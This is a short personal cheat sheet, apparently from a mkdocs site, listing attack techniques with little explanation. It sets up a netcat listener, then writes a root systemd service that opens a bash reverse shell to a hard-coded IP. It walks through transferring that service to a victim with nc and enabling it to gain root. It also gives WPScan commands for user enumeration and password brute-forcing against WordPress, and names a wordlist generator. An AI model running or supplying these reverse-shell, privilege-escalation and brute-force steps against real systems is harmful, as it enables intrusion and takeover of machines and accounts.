

repository: FullByte/FullByte.github.io · page: tech/tools/hack/attack-tools.html · generator: mkdocs

---
date: 2023-12-22
modified: 2023-12-22
description: Installsudo apt install ncat
tags:
- Tech
- Tools
---

# Attack Tools

## Reverse Shell

### Netcat

Install```sudo apt install ncat```

Start netcat listening on e.g. port 1234: ```nc -lvnp 1234```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.webp)

### Create service

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker: ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Web

### Wordpress

[WPScan](https://github.com/wpscanteam/wpscan) is a WordPress security scanner to test the security of their WordPress websites.

Example

``` sh
wpscan --url http://example.org/wordpress -e u
wpscan --url http://example.org/wordpress --usernames admin --passwords wordlist.txt --threads 10
```

## Passwords

- Crunch: create custom wordlists
